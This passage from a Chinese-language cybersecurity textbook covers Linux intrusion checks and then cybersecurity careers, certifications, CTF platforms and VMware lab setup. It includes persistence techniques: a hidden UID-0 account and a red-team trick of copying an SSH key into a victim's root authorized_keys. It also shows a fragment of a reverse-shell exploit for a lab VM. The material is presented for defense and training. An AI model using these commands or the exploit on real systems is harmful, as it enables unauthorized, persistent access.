运行以下命令来查找有密码的账户和 UID 为 0 的账户：

```
cat /etc/shadow | grep -F "$"          -> finds accounts with Passwords
cat /etc/passwd| grep x:0              -> finds accounts with a UID of 0
```


**图 9.26** 有密码和根级访问权限（UID=0）的用户账户。

您还可以而且应该通过键入命令 `cat /etc/group` 并查看 `sudo` 组中的账户来检查 `sudo` 组。在大多数较新版本的 Linux 中，root 账户甚至可能被禁用，第一个用户账户在运行 `sudo` 命令时将拥有 root 级权限。这与微软在其客户端版本操作系统上的做法大体相同：禁用内置管理员，并在用户点击用户账户控制的允许按钮时，将管理权限授予第一个创建的账户（这始于 Windows Vista）。Windows 试图避免最终用户使用 `Administrator` 账户（在客户端上），而 Linux 试图避免最终用户使用 `root` 账户。为什么？因为这些管理权限可能允许你通过安装恶意软件来损害自己的系统。

在 Windows Vista 实施此做法之前的 XP 时代，大多数用户都使用管理员账户，从计算机安全角度来看这简直就是一场噩梦，同时也是各地黑客和攻击者美好而繁荣的时期。我自 1994 年开始使用 Windows，自 2000 年开始使用 Linux，我确实更喜欢使用管理员和 root 账户。

运行以下命令来查找 `sudo` 组中的账户：

```
cat /etc/group | grep sudo   -> lists the accounts in the sudo group
```


**图 9.27** 查看 Linux 上的 `sudo` 组。

对于攻击者来说，如果他们闯入 Linux 系统并通过 root 账户获得管理员访问权限，或者如果他们拥有 `sudo` 权限，那么创建另一个 root 级账户并不困难。在本例中，我添加了另一个用户 `levi`，其 UID 为零，并添加了 `-o`，因为该 UID 不是唯一的（因为 root 的 UID 也为零）。用户的提示符是井号 `#` 而不是美元符号 `$`，这告诉你拥有 root 级权限。这对 Cisco IOS 和 Mac 也是如此。像我这样的讲师经常告诉学生，要记住井号（pound）比美元（dollar）更值钱，这是记住哪个符号代表高权限级别的简单方法。幸运的是（或者对我的银行账户来说不幸的是），这种货币差异在教授这一概念超过 20 年的时间里一直存在。

运行以下命令来创建 UID 为 0 的账户：

```
useradd levi -u 0 -o   -> adds a user with a UID of 0 (non-unique)
id levi               -> displays the UID and group of the user
```


**图 9.28** 具有密码和 Root 级访问权限的用户账户（UID=0）。

因此，对于 Linux，我们必须更进一步，而不仅仅是检查账户和查看 UID。在大西洋中部大学网络防御竞赛（MACCDC）中与一些红队成员合作时，他们向我展示了一种技巧，将他们的 SSH 密钥存储在受害机器的 `authorized_keys` 文件中。这使他们能够继续以 root 账户身份连接到系统，即使 root 密码被更改。学生们面临着试图将红队拒之门外的艰巨任务。他们不断更改 root 密码，但我们仍然回到了他们的系统中，因为我们的 `id_rsa.pub` 文件被复制到了他们的 `/root/.ssh/authorized_keys` 文件中。我们将这种技巧称为“肮脏的红队技巧”。在比赛结束时，我们揭示了这一技巧和其他技巧。

运行以下命令将你的密钥复制到受害机器：

```
scp /root/.ssh/id_rsa.pub root@IP:/root/.ssh/authorized_keys  -> allows continued SSH access
```


**图 9.29** 肮脏的红队技巧。

这对黑客来说也非常方便，因为他们 SSH 时甚至不需要尝试密码。从取证的角度来看，我们可能应该检查 Linux 服务器上 root（以及可能具有 `sudo` 权限的其他账户）的 `authorized_keys` 文件中的信息。为此，只需进入 Linux 机器并导航到隐藏的 `.ssh` 目录。然后你可以使用 `cat`、`head`、`tail`、`more` 或 `less` 查看 `authorized_keys` 文件的内容。查看文件中存储的信息。

运行以下命令来查看系统上授权的 SSH 密钥：

```
cat ~/.ssh/authorized_keys  -> allows continued SSH access
```


**图 9.30** 授权的 SSH 密钥文件 `authorized_keys`。

最后，我们将查看 Linux 系统上开放的端口，然后关闭任何运行了不必要服务的端口。工具 `nmap` 可以在 Windows 上运行，但它是为 Linux 构建和编译的，因此它在 Linux 系统上效果最佳。根据你使用的 Linux 发行版，可以通过 `apt-get` 或 `yum` 轻松安装它。与 Windows 一样，你也可以使用 `netstat` 查看监听端口。只需使用 `grep` 而不是 `find` 命令来解析命令的输出。

运行以下命令来查看你的 Linux 系统上哪些端口是开放的：

```
nmap 127.0.0.1 -p 0-65535       -> checks to see what Transmission Control (TCP) Ports are open
netstat -tan | grep LISTENING  -> shows a list of open ports with the built-in netstat command
```


**图 9.31** 授权的 SSH 密钥文件 `authorized_keys`。

最后，我们将研究如何停止这些服务并防止它们在启动时自动运行。你可以使用 `service` 命令，后跟服务名称以及 `stop`、`start`、`restart` 或查看服务的状态。你可以使用 `update-rc.d` 命令在启动时启用或禁用服务。

运行以下命令停止服务并阻止它们在系统启动时运行：

```
service vsftpd stop              -> stops the service
update-rc.d vsftpd disable       -> disables the service at startup
```


**图 9.32** 停止不必要的服务。

## 总结

黑客进入系统，然后采取措施留在这些系统中。你不必只是坐以待毙，让黑客管理、控制和滥用你的系统。在 Windows 和 Linux 中，有内置和第三方工具可用于调查系统上的任何可疑活动。无论你是在比赛中加入网络战队，还是认为自己已被黑客入侵，都有方法通过检查连接的 IP 地址和正在运行的进程来判断是否有人侵入你的系统。就像你应该主动检查银行账户和信用报告中的可疑活动一样，你也应该检查自己计算机的操作系统账户是否有异常和未授权的活动。了解入侵迹象可能是什么，并勤于检查任何可疑活动，可以让你作为最终用户或分析师更有力量。当你开始更加熟悉入侵指标时，你就知道如何检测系统或网络中是否存在恶意行为者，并采取措施将其清除。

# 10 网络安全职业

## 简介

在本章中，我们将探讨进入网络安全领域的一些方法。在撰写本文时，美国约有 75 万个网络安全职位空缺。某些地区的空缺比其他地区更多，网站 `statista.com` 提供了各州的详细数据。进入网络安全领域有很多优势，包括大量的职位空缺、能够远程工作以及能够获得高薪。非常重要的一点是，网络安全领域不是计算机科学，后者可能是一个数学（和微积分）比重很大的课程。一般来说，除了子网划分、十六进制、二进制和一些简单计算之外，网络领域并没有太多数学，所以如果你不喜欢数学，不必被吓跑。

谁适合从事网络安全工作？那些对技术感到舒适、会设置家用路由器、善于使用 iPhone、Android、Chromebook 和 iPad 以及其他技术的人，都是网络安全职业的合适候选人。在进一步阅读之前，还有最后一点要注意。在网络安全领域拥有最成功职业的人，是那些觉得它总体上有趣且令人兴奋、对技术有热情并觉得它有趣的人。那些只是为了钱而进入网络领域、对网络缺乏热情的人，可能不会喜欢每天去上班。这几乎是一个普遍真理：如果你热爱自己所做的事，你的工作就会令人满意，工作也会成为你生活中愉快的一部分。我们还将探讨对网络安全的热情如何在求职面试中帮助你（或者至少是感知到的热情）。

为什么网络安全是很好的职业选择？

- 大量的职位空缺，根据 `statista.com`，大约有 75 万个工作岗位（2023 年）。

- 高薪，以及能够进入该领域不同方向（红队与蓝队角色等）的能力。

- 能够远程工作，节省通勤费用，让你的房子保持更整洁。

- 如果你未婚且没有子女，能够找到涉及出差的 IT 工作。

- 持续终身的持续学习，让你的思想和心智在几十年内不断受到挑战。

- 入门级职位并不总是需要四年制学位（两年制学位也可以）。

- 通过认证考试可以推动你的职业发展。认证可能是一项工作要求。

- 这个职业领域随着时间的推移变得越来越多样化，这是一个积极因素。

好的，这很有趣，因为我经常建议人们考虑 IT 或网络领域的职业选择。但是，有哪些理由要避开 IT 职业领域呢？我们也应该披露其中一些缺点：

- 国防部（DoD）内的工作通常需要安全许可。做出好的生活选择，以便能够拥有/获得一个许可。

- 工作可能极难脱身。在 SCIF 工作有助于缓解这种情况。

- 远程工作的薪水可能根据你所在地区的生活成本而降低。

- 并非所有地方都有大量 IT 职位空缺和很高的薪水。请查看 `indeed.com` 了解你所在地区的情况。

- 持续学习要求你不断接受再培训。

- 雇主要求的某些经验水平不切实际。

- 7. 通过认证考试可能是一个障碍。认证可能是工作要求。

- 8. 这个职业领域过去缺乏多样性，因此许多人正在努力改变这一点。

在网络安全领域工作可能还有很多其他优点和缺点。其中一些项目是我脑海中首要考虑的，我想为那些对网络安全职业犹豫不决的人，或者那些正在考虑是否要长期留在网络安全领域的人设定预期。

一些高薪工作需要大量经验、IT 认证，有时甚至需要你拥有安全许可。那么你如何达到目标？许多入门级工作只需要单一认证，经验要求较少，学位可能是也可能不是必需条件。许可实际上只用于那些为国防部（DoD）工作的工作。许多工作还会帮助支付学费、培训课程和认证考试费用。随着你积累经验、获得额外认证并完成学位，你可以换到收入更高的工作。在许多大型公司，也有可能留在公司内部，从一个职位转到另一个职位。IT 人员五年内换 5–10 份工作并不罕见。很久以前，人们通常一辈子待在一家公司。在那个时代，人们频繁跳槽会被看不起，因为这似乎表明他们不太可靠，也更“不稳定”。如今，情况几乎相反。如果你没有在不同雇主、不同职位上拥有多样化经验，一些招聘经理可能会质疑你为什么只待在一个地方。在网络安全领域跳槽是让人们获得 20,000 美元或更多加薪的好方法。不同的公司和职位角色有助于丰富你的就业经历和网络安全相关经验。


图 10.1 帕森斯公司 NSA 承包商的最高薪资工作。

接下来，我们将讨论网络安全中的一些不同学位课程。要得到一个好的网络安全教育，你不必去哈佛或斯坦福。一个很好的起点是你当地的社区学院。社区学院拥有全国最好、最博学的全职网络安全教师。原因是他们专注于每年教授 10–12 门（或更多）课程，而不是研究。虽然进行研究很重要，也很必要，但它可能使教师与使用 Linux、Windows 和 Cisco 操作系统的日常琐事脱节。

教授一个 25–30 名学生“道德黑客”等概念并不是胆小者能做的，因为当学生不熟悉终端和命令提示符时，可能会出现大量故障排除问题。我从与学生的互动中学到了很多关于故障排除和操作系统的知识。这引出了另一点：教授网络安全课程也是回馈社会并加深自己对概念和主题理解的另一种好方法。在社区学院、学院、大学、非学分课程和培训中心，教学要求和薪资差异很大。我认识的所有全职在社区学院任教的人都不会离开他们的工作，这可能看起来不重要，但如果人们长期待在一个地方，他们很可能热爱自己的工作。

对于社区学院、四年制学院和大学，找一个课程与认证考试相符的学位项目。有些人对认证考试及其价值持怀疑态度，但认证通常是雇主出于合规原因的要求。事实上，我认识一些因为获得认证而被雇用的人，也认识一个因为没有在雇佣合同中规定的六个月内通过认证考试而被解雇的人。下面是我的 CompTIA 成绩单，其中包括许多 2010 年前的考试，这些考试终生有效，以及一些继续教育（CE）考试，这些考试在我 2000 年代初参加大多数认证考试时还不存在（Cloud+、Pentest+、CYSA+ 和 CASP+）。


图 10.2 CompTIA 证书，我喜欢它们（尤其是 2010 年之前的）。

据我所知，大多数社区学院都有与 Cisco、Microsoft、CompTIA、EC-Council 和 ISC2 等行业认证相符的网络安全项目。我在巴尔的摩县社区学院（CCBC）教了几年书，他们的项目有许多与行业认证相符的网络安全课程。其他社区学院也是如此。

就像两年制学校一样，你应该找一所与行业认证相符的四年制学校。在我目前任教的马里兰大学全球校区网络安全技术项目中，所有课程都与 CCNA、CCNP、A+、CEH、CISSP、Cloud+、Security+、Linux+、Net+、Pentest+、Security+ 以及 Microsoft 和 AWS 相关认证相符。实际上，认证相关课程太多，只有某些是必需的，有些你可以作为选修课。在学习过程中最好专注于少数几个认证，不要试图全部拿下。我认为 Security+ 和 CISSP 的投资回报率最高，但 CISSP 有五年的经验要求。你可以在没有经验的情况下参加考试，但需要经验才能正式获得 CISSP 认可。请注意，CISSP 更像是一门理论考试，没有任何动手模拟练习，也不要求你展示技术专长。

你可以参加的最佳动手认证考试之一是进攻性安全认证专家（OSCP）。这不是像我在 2005 年通过的高级道德黑客考试的多种选择题考试（尽管它仍然有效）。OSCP 考试是一个 24 小时的渗透测试练习，要求你在结束时写一份报告。OSCP 要求具备大量的网络安全知识和经验，不应成为人们目标的首个认证。现在，CEH 确实有一个新的 Master 级认证，包含一些动手扫描和利用，但它没有达到 OSCP 考试的水平，因为 OSCP 考试要求使用和不使用 `Metasploit` 进行漏洞利用。


图 10.4 高级道德黑客认证。


当我在 2005 年通过 CEH 多项选择考试时，我特别记得一些关于入侵 Windows 98、NT 和 2000 的问题，那些系统在当时相当普遍。对 CEH 考试有一些负面看法，因为它更偏重多项选择而非动手黑客技术，我理解这种情绪。然而，你简历上的任何认证都将是一种加分，而不是缺点。CEH 的一个重要特点是，它现在是美国国家标准协会（ANSI）认可的认证，与几个 DoD-8570 网络安全服务提供商（CSSP）分析师角色相关。DoD 8570 列表上的认证包括大多数 CompTIA、Cisco、GCIA 和 ISC2 认证。见下表。

| CSSP 分析师¹,² | CSSP 基础设施支持¹ | CSSP 事件响应者¹,² |
|---|---|---|
| CEH | CEH | CEH |
| CPR | CySA+ | CFR |
| CCNA Cyber Ops | GICSP | CCNA Cyber Ops |
| CCNA Security | SSCP | CCNA Security |
| CySA+ | CHFI | CHFI |
| GCIA | CFR | CySA+ |
| GCIH | Cloud+ | GCFA |
| GICSP | CND | GCIH |
| Cloud+ |  | SCYBER |
| SCYBER |  | PenTest+ |
| PenTest+ |  |  |
| CSSP 审计师¹ | CSSP 经理¹ |  |
| CEH | CISM |  |
| CySA+ | CISSP-ISSMP |  |
| CISA | CCISO |  |
| GSLA |  |  |
| CPR |  |  |
| PenTest |  |  |

图 10.5 https://public.cyber.mil/wid/cwmp/dod-approved-8570-baseline-certifications/

所以，尽管 OSCP 是动手黑客技能的更强指标，但它目前不在 DoD 8570 列表中，而 CEH 在。寻找商业渗透测试员的雇主可能更喜欢 OSCP，但 DoD 内的职位可能出于合规原因要求 CEH。两者都是值得追求并纳入你的认证库的认证，但它们在测试你的黑客知识方面是完全不同的考试。CEH 多项选择考试将涵盖相关概念和各个黑客阶段，而 OSCP 认证则是对真实系统的动手渗透测试和书面报告。

为 OSCP 等考试备考的最好方法之一是使用像 Hackthebox 这样的平台。Hackthebox 有付费和免费层级。主要区别在于，使用免费层级，你会处于一个隔离网络中，拥有自己的目标虚拟机。使用付费层级，你是众多攻击同一台机器的人之一。有各种 Linux 和 Windows 机器可供你选择攻击。目标是获得特权访问。你通过获得用户级访问（非特权）得分，如果你能将特权提升到管理员或 root，还能获得额外分数。有些“活跃”目标机器，其漏洞利用解决方案不允许在互联网上发布。一旦我获得 root 或管理员密码，我通常可以用它来揭示网站上的隐藏帖子，看看其他人采用了什么方法入侵系统。对于存档机器，你可以发布解决方案，因为入侵它们不会获得分数，也不会提高你在网站上的排名。他们的排名包括 Noob、Script Kiddie、Hacker、Pro Hacker、Elite Hacker、Guru 和 Omniscient。他们还有大学排名，包括美国和全球的团队。在撰写本文时，美国排名前三的大学是 Bradley、Western Governors 和马里兰大学全球校区。整体排名第一的大学是法国工程技术学院 ENSIBS（École nationale supérieure d’ingénieurs de Bretagne Sud）。

| 排名 | 大学 | 学生 | 分数 |
|---|---|---|---|
| - | ESNA de Bretagne | 75 | 3019 |
| - | Hochschule Niederrhein | 446 | 2719 |
| - | Radboud University | 35 | 2329 |
| 4 | ENSIBS | 122 | 2284 |
| 5 | FAU Erlangen-Nuremberg | 38 | 2262 |
| 6 | Bradley University | 80 | 2154 |
| 7 | Western Governors University | 347 | 2146 |
| ▲ 8 | University of Maryland Global Campus | 202 | 2069 |

图 10.6 某黑客 CTF 网站的大学排名（2024年2月24日）。

学习针对不同 Linux 和 Windows 系统的不同利用技术非常有益。随着时间推移，当你遇到想要入侵的系统时，你的经验会帮助你。还有一些其他资源可以用于攻击侧。VulnHub（现由 Offensive Security 拥有，该公司也是 OSCP 考试供应商）允许你下载虚拟机，你可以在自己的系统上运行并攻击它们。我喜欢这种方式，因为更多的工作需要你自己完成，比如配置操作系统和网络，确保你的机器能够通信。

实际上，我当时正在为一次会议做研究，并尝试做一场关于入侵物联网（IoT）和监控与数据采集（SCADA）设备的现场演示。我在 VulnHub 网站上找到了一些不错的虚拟机，在完成一些额外操作后，我能够让它们运行起来并完成配置，然后能够利用它们。该网站允许你免费下载虚拟机。有时你可以找到教程来指导你如何攻陷这些机器。随着时间积累的经验将有助于提升你的黑客技能。


图 10.7 虚拟机资源。

对于 Hack The Box 和 VulnHub，社区都有参与。你可以上传自己的虚拟机，或提供关于如何攻陷这些机器的演练指南（除非它们是 Hack The Box 上的活跃机器）。通过解释过程并确保你所采取的步骤可重现来进行演练，是渗透测试的关键部分，也有助于提升你的报告撰写技能。下面是我能够利用的一个模拟人行横道信号灯的虚拟机示例。该虚拟机从 VulnHub 获取，名为 TinySploit ARM，它使用快速模拟器（QEMU）模拟基于 ARM 的设备，并且是免费开源的。我也采用过另一种方式，在搭载 Silicon 芯片的 Mac 上使用 UTM 和 QEMU 来模拟基于 Intel 的中央处理器（CPU）。


图 10.8 TinySploit ARM。

这次攻击的一个有趣之处在于，我找到了一个可用于针对人行横道信号灯的漏洞利用程序，但该程序在我当时拥有的最新版 Kali 上无法运行，因为该漏洞利用程序是用 Python 2 编写的，而我的 Kali 使用的是 Python 3。因此，我没有花时间用早期版本的 Python 重写该漏洞利用程序，而是给朋友打了个电话（老电视剧的梗），并让 ChatGPT（https://chat.openai.com/）将我找到的漏洞利用程序转换，使其能在 Python 3 中运行。我不记得它是否完美，但经过一点编辑，我让它成功运行了。我懂得阅读（和编辑）代码，但自从我为 Atari 或 Texas Instruments (TI)-82 图形计算器编写初学者通用符号指令码（BASIC）程序以来，我并没有真正做过太多编程。当然，使用人工智能（AI）并利用 ChatGPT 帮助你冲过终点线是完全可以的。在我看来，使用 AI 工具是一个很好的补充，只是不要陷入总是依赖它来完成工作的境地。

```
write this for python3:
#!/usr/bin/env python

from pwn import *

LHOST = [192,168,150,100]
LPORT = 4444
RHOST = '192.168.150.128'
RPORT = 8080
BAD_CHARS = '\x00\x20'

shellcode = '\x01\x10\x8f\xe2\x11\xff\x2f\xe1\x01\x21\x48\x1c\x52\x40\xff\x27\x1a\x37\x01\xdf\x83\x4'
shellcode += p16(LPORT, endian='big')
```

图 10.9 ChatGPT 助手。

说到 Kali，你需要的一件事是为你的攻击机器准备一个好的 Kali 虚拟机。有些人使用 Parrot、AthenaOS、Exegol 或其他 Linux 变体。Kali 的相关文档非常丰富，所以如果你是渗透测试或网络安全的新手，使用预配置的 Kali Linux 虚拟机将是一个不错的选择。你可以在这里下载：https://www.kali.org/get-kali/#kali-virtual-machines


图 10.10 Linux。

我推荐在 Windows 或 Linux 上使用 VMware Workstation，在 Mac 上使用 VMware Fusion，这些软件自 2024 年起已免费。你可以通过以下链接为 Windows、Linux 或 Mac 下载：https://www.vmware.com/products/desktop-hypervisor.html。请注意，它仅限非商业用途免费。我建议人们使用它而不是 Oracle VirtualBox 的主要原因是，如果你所在组织的 IT 部门拥有 vSphere 和 Elastic Sky X Integrated (ESXi) 服务器，熟悉 VMware 将非常有益。熟悉 VMware Workstation (Player) 的网络和配置，可以让你更轻松地过渡到企业环境中的 VMware vSphere 工作。


图 10.11 VMware vSphere。

我已经使用 VMware 超过 20 年，有人引用过我的话，说“这是我用过的最具变革性的软件”。如果没有 VMware Workstation，我对网络安全的理解以及对操作系统和网络概念的熟悉程度绝不会是今天这个样子。使用 VMware，你可以学习安装、配置、组网、入侵、执行应急响应以及进行取证分析。快照功能非常有用，它可以在操作系统完全按照你的要求配置好后、在你做出更改之前保存一个状态点。


图 10.12 – VMware 快照。

诚然，Oracle VirtualBox 和 Microsoft Virtual PC 确实具备与 VMware Workstation 类似的功能。但我确实发现 Linux 操作系统在 VMware Workstation 上运行得更好。

如果你是黑客新手，我们可以利用 VMware 的仅主机（Host-only）功能，确保扫描和漏洞利用不会离开你的系统。你实际上可以断开无线网络或以太网连接（如果你有的话），但仍然可以使用 VMware 的仅主机模式。请确保你在攻击时使用仅主机模式，以确保你的攻击被限制在本地。


图 10.15 VMware 仅主机模式。

安装 VMware Workstation 时，有三种模式：

- 仅主机（Host-Only）：虚拟机只能与该机器上处于仅主机模式的其他虚拟机通信。
- NAT（网络地址转换）：可访问互联网和其他 NAT 虚拟机。
- 桥接（Bridged）：可访问物理网络适配器。

当你安装 VMware Workstation 时，你的 Windows 机器默认会有两个额外的网络接口卡：VMnet1（属于仅主机网络的一部分）和 VMnet8（属于 NAT 网络的一部分）。你的以太网或无线适配器将对应你的桥接网络。这将允许你连接到宿主机（即安装操作系统的主机）。这两个 VMnet 接口都有一个以 .1 结尾的私有互联网协议（IP）地址。这些网络的网关是 .2，动态主机配置协议（DHCP）服务器是 .254。这些地址 .1、.2 和 .254 在这些虚拟网络上是保留的。


图 10.16 VMware VMnet 适配器。

如果你点击“编辑”->“虚拟网络编辑器”，你可以调整 NAT 和仅主机模式的 IP 网络。我更喜欢为 VMware 选择自己的静态 IP 地址。我不喜欢使用看起来很随机的 IP 地址，因为如果我们记住我们正在 ping、扫描和利用的 IP 地址，就更容易练习我们的技能。对于在教室中使用 VMware Workstation 教学的教师来说，这些 IP 地址可能会在您的各种安装中随机分配，而当班上的每个人都有不同的 IP 地址集时，教学（无论是新手还是经验丰富的学习者）就会变得困难。我还经常带着笔记本电脑外出做演示，而我连接的 Wi-Fi 网络通常提供 10.0.0.0/8 地址。许多家庭网络使用 192.168.1.0/24 子网，基于这两个原因，我选择使用 172.16.0.0/12 范围内的网络地址。当你在这里进行更改时，它们会影响宿主机上的 VMnet1 和 VMnet8 适配器。它们会自动更新为这些寻址方案，所以不要手动更改它们。我关闭了仅主机连接的 DHCP，因为我喜欢手动设置 IP。由于我经常利用 NAT 网络上可用的互联网，所以我为该接口保留 DHCP 服务器，但通常仍然手动设置虚拟机 IP 地址，将网关设置为 .2，通常将域名系统（DNS）服务器设置为 8.8.8.8（Google DNS）。虽然其中一些可能看起来微不足道，但如果你静态地设置东西，并为受害机器使用易于记忆的地址（如 172.16.100.100 而不是像 192.168.39.138 这样的地址），你将花更多时间学习，更少时间进行故障排除和检查 IP 地址。

## 私有 IP 地址范围

```
10.0.0.0/8
172.16.0.0/12
192.168.0.0/16
```


图 10.17 VMware Workstation 的 IP 子网。

当你开始网络安全之旅时，你应该从仅主机模式并使用扁平网络开始。扁平网络攻击更容易理解和实施。正如你从下面的示例中看到的，我更喜欢使用易于记忆的漂亮静态 IP 地址，


图 10.20 添加更多仅主机网络。

这将让你能进一步提升技能，因为在扁平网络上练习确实有助于提高你的能力，但在某个阶段你必须拓展技能组合，熟悉真实网络的运作方式——包括局域网（LAN）和广域网（WAN）地址、防火墙，以及网络地址转换（NAT）的工作原理。如果你在防火墙上配置端口重定向，黑客（也就是你）就可以尝试攻击被重定向到的内部系统。如果攻击者获得其中一个内部系统的访问权限，就可以在局域网内进行横向移动。高级课程需要从这一角度进行训练，以便参与者更好地理解来自广域网的攻击。这也改变了分析师的视角，因为他们将像在实际工作中遇到的那样，检查来自外部 IP 的日志和网络连接。


图 10.21 使用 VMware Workstation 创建的真实网络攻击（Visio 图）。

使用虚拟机搭建拓扑或高级网络环境，可以让你练习并更好地理解网络安全的许多重要组成部分。我告诉那些对网络（Cyber）职业感兴趣的人：

1. 在 VMware Workstation 中安装 Linux、Windows、BSD 等操作系统。
2. 配置网络，使同一网段中的虚拟机能够互相通信。
3. 配置路由，使网络中所有不同网段都能互相通信。
4. 启用防火墙以保护局域网，并配置指向内部系统的端口重定向。
5. 在连接到内部网络的接口上运行 Wireshark，以便稍后分析。
6. 从你的广域网机器扫描外部防火墙地址，并利用存在漏洞的服务。
7. 转向其他内部网络机器。创建额外后门并窃取数据。
8. 对已被攻陷的主机执行事件响应、日志分析和取证。

如果你能在一套局域网/广域网环境中搭建并配置所有机器，对它们进行攻击和分析，你将对操作系统、网络、漏洞利用和事件响应有更深刻的理解。


图 10.22 防火墙上的端口重定向示例。

除了在自己机器上搭建所有环境外，还有很多其他资源可以利用。我更喜欢从 VMware 开始，因为尽管市面上许多实验供应商提供了很多优秀的实验，教授了很多很棒的概念，但问题在于很多搭建工作已经替你完成了。了解如何安装、配置并连接各种操作系统非常重要。虽然我过去完全使用物理设备来完成这些，但 VMware 能让你完成几乎所有用一大堆物理设备所能做的事情，只不过无需使用物理的网络和驱动器连接器。

另一个同时提供免费和付费层级的优秀资源是 https://tryhackme.com。他们的网站提供不同的学习路径，包括完全初学者、SOC 一级和二级、Web 基础、红队作战、Pentest+、网络防御、初级渗透测试员、进攻性渗透测试等。在每条学习路径中，他们都有不同的模块。模块数量太多，无法一一列出，但包括 Metasploit、Wireshark、Splunk、AWS、网络基础、恶意软件分析、事件响应等。


图 10.23 TryHackMe 学习路径。


他们提供引导式学习，并提供对虚拟环境的访问。你可以选择使用 `OpenVPN`，或连接他们的“AttackBox”——一台预配置的攻击机器，你可以通过浏览器访问。免费 AttackBox 每天有 1 小时的使用时间限制。如果需要更多时间，可以升级到没有时间限制的高级版。我认识一些人，他们用完了所有免费内容，然后购买了付费层级，也学完了所有高级内容。`TryHackMe` 还有一个 `King of the Hill` 模式，你可以与其他人竞争，入侵一台机器，然后为其打补丁以防止进一步利用。这些经历以及对网络（cyber）内容与概念的接触，对于你攻读网络安全学位或求职将非常有帮助。你练习得越多，这一切就越容易理解。


图 10.24 TryHackMe 学习环境。

最后，来说说我非常喜欢的话题之一——夺旗赛（Capture the Flags，简称 `CTF`）。`CTF` 是练习网络安全技能的好方法。`TryHackMe` 上有大量初级、中级和高难度主题的 `CTF` 可供你完成，覆盖各种主题。我在 `UMGC` 指导的团队和我本人参加了许多 `CTF`，涉及各种网络安全主题，包括 `OSINT`、密码学、取证、手机取证、关键基础设施、渗透测试、日志分析，以及其他许多网络相关主题。自 2015 年指导该团队以来，团队取得了 50 多次前三名成绩和奖项，这绝对是学生们的功劳，而不是教练的。当 `CTF` 向所有人开放时，我会与大学的学生一起参加，这非常有趣，而且我总能学到东西。`Chris` 和我一起参加过一些，有时我们拿到第一名，有时我们没能进入前三名。无论你知道多少或有多少经验，比赛中除了学习之外，没有任何事情是有保证的。我觉得 `TryHackMe` 平台使用主题标签来帮助你确定每场 `CTF` 将涵盖哪些主题，这一点非常有益。


图 10.25 夺旗赛。

`TryHackMe` 的 `CTF` 最棒的一点是，可用的 `write-up`（解题报告）能在你卡住时帮你解决问题。这些附带解决方案的 `write-up` 由社区成员提交。通常，许多不同的人会提交 `write-up`，让你从不同视角了解人们如何解决某个特定问题。解决问题的方法几乎总是有多种，可使用的工具也有多种。即使你自己解决了问题，也仍然值得浏览或研究其他解决方案，看看其他人是怎么处理的。编写自己的 `write-up` 也是锻炼文档能力的好方法。对于大多数网络（cyber）工作岗位，你需要提供出色的文档。你也可以把自己的 `write-up` 添加到简历中，作为你部分经验和技术写作能力的证明。


图 10.26 夺旗赛解题报告。

另一个持续跟踪夺旗赛事列表的网站是 `https://CTFtime.org`。你可以利用该网站，几乎每个星期和周末都能找到一场或多场即将举行的夺旗赛。网站提供指向赛事主办组织的链接。几乎所有的比赛都在线上进行，但也有一些 `CTF` 要求团队到现场参加。`CTFtime.org` 网站上列出的几乎所有比赛都对任何人开放。少数 `CTF` 仅限于学术机构参加。网站上列出的比赛由世界各地的组织主办。


图 10.27 即将举行的比赛列表。

`CTFtime` 的另一个类似 `TryHackMe` 的好功能是 `write-up`（解题报告）。`write-up` 只允许在 `CTF` 结束后发布。社区的不同成员会发布 `write-up`，其中包含他们如何得出问题解决方案的过程。同样，通常会有多份 `write-up`，让你从不同视角了解如何解决 `CTF` 问题。这些 `write-up` 至关重要，因为它们能帮助你解决那些你可能不知道如何入手的问题。回顾你参加的每场 `CTF` 的 `write-up`，将有助于你在未来的比赛中表现得更好。

## 取证/Forenscript

作者：ashir i / Weak But Leet


```
% xxd -c4 -p a.bin | sed -e 's/\(..\)\(..\)\(..\)\(..\)/\4\3\2\1/g' | tr -d '\n' | xxd -r -p | dd skip=60048 of=b.png ibs=1
# open b.png and get the flag
```

图 10.28 CTF 解题报告解法。

另一个非免费（但成本较低）的选择是 `National Cyber League`（`NCL`）。目前（截至 2024 年），春季和秋季赛事费用为 35 美元。`NCL` 自 2012 年便已存在，并且从那时起不断发展。我（`Jesse Varsalone`）实际上编写了第一场团队比赛的题目，以及几乎所有用于训练场练习的实验。以下是 `NCL` 涵盖的各类主题：

- 开源情报
- 密码学
- 密码破解
- 日志分析
- 网络流量分析
- 取证
- 扫描与侦查
- Web 应用利用
- 枚举与利用

赛季以一个包含 `CTF` 问题和解答的 `Gym` 开始，你也可以与他人一起合作。`Gym` 在秋季或春季学期开始时开放，并一直持续到赛季结束。练习赛持续一周。与 `Gym` 不同，练习赛不提供解答，但允许你与他人合作。个人赛在周末进行，你不能寻求外部帮助。最后，团队赛让你有机会与其他 `NCL` 参赛者（通常来自同一机构）竞争。`NCL` 不要求你必须是在校大学生，高中生也有资格参加。网络团队通常会支付 35.00 美元的费用。


图 10.29 国家网络联盟（`NCL`）的各轮比赛。

`NCL` 是提升和磨炼你网络安全技能的好方法。我曾作为教练参与过这项活动，因为我看到这项活动确实帮助一些网络团队成员将网络安全技能提升到了一个新的水平。它确实让你能够在你想要提升技能组合的类别上进行练习。本书的合著者 `Chris Haller` 在 2022 年春季赛的 6021 名参赛者中获得了第一名。我相信 `Chris` 会告诉你，`NCL` 及其所有挑战帮助他提升了技能。

`NCL` 2022 年春季个人赛 `NCL` 总体 所有模块 理论排名：6021 / 6021（未排名）


| 排名 | 用户名 | 积分 | 准确率 | 自开始以来最后正确提交时间 | 完成度 |

|------|--------|------|--------|--------------------------------|--------|

| 1 | m4where | 2775 | 99.21% | 2 天 2 小时 | 98.44% |

图 10.30 `Chris Haller` 在 2022 年春季 `NCL` 中获得第一名。

人们经常问我的一个问题是，对于参加填空式认证考试的人，你有什么建议？我的回答是，你最好的做法是询问那些已经参加并通过考试的人，了解他们使用了哪些资料以及推荐什么。你总能在 `Amazon` 和 `Udemy` 上找到认证考试的准备材料。要注意阅读评论，因为有些学习资料比其他资料更有用。避免使用任何类型的“脑题库”网站，这些网站非法获取考试题目和答案。使用这些网站不仅不道德，而且违反了你在参加考试时同意的条款。好消息是，不同考试之间的主题肯定有重叠。多练习多项选择题和模拟题，很多在网上都是免费的。

如果你在军队服役，通常可以获得认证考试费用报销。有些考试的费用比我 20 多年前参加时贵得多。大多数学院、大学和培训机构都与 `Cisco`、`Microsoft`、`CompTIA` 和 `EC-Council` 建立了合作关系，他们提供折扣券计划，可以为你节省每项认证考试的大量费用。而且非常重要的是，在通过考试后，你要完成继续教育学分（`CEU`），在大多数情况下，这是续期认证所必需的（通常每三年进行一次）。

